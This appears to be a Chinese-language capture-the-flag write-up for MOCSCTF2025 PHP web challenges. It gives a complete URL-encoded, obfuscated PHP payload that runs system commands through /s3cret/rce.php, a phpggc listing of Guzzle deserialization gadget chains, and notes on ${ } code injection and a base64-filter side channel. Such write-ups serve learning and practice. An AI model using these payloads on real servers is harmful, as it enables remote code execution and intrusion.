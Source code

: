完整paylaod

```
/s3cret/rce.php?MOCSCTF2025=%24_%3D%5B%5D.''%3B%24_%3D%24_%5B''%3D%3D'%24'%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D%24___.%24__.%24_%3B%24_%3D'_'.%24_%3B%24%24_%5B_%5D(%24%24_%5B__%5D)%3B&_=system&__=cat%20fl49.php
```


### ez-pop

感觉这个更简单一些，`composer.json`可以找到`"guzzlehttp/guzzle": "^7.9"`，这里直接查询

```
./phpggc -l guzzle

Gadget Chains
-------------

NAME                     VERSION                         TYPE                  VECTOR        I
Guzzle/FW1               4.0.0-rc.2 <= 7.5.0+            File write            __destruct
Guzzle/INFO1             6.0.0 <= 6.3.2                  phpinfo()             __destruct    *
Guzzle/RCE1              6.0.0 <= 6.3.2                  RCE: Function Call    __destruct    *
Pydio/Guzzle/RCE1        < 8.2.2                         RCE: Function Call    __toString
WordPress/Guzzle/RCE1    4.0.0 <= 6.4.1+ & WP < 5.5.2    RCE: Function Call    __toString    *
WordPress/Guzzle/RCE2    4.0.0 <= 6.4.1+ & WP < 5.5.2    RCE: Function Call    __destruct    *
```

打WF1即可，然后上传

### ez-write

[出题人wp](https://fushuling.com/index.php/2025/07/14/mocsctf2025-ez-writeez-injection/)

自己写的时候发现可以`${ }`包裹执行，访问`${include $_GET[1]}`可以拿到路径，然后发现可以读取，但是不知道flag在哪里，后面其实明白了就算知道也不行，因为没有权限

后面翻到了陆队的博客，找到了`PHP Base64 Filter`，后面结束了队友跟我说这是测信道攻击？不太懂xd，废了

```
```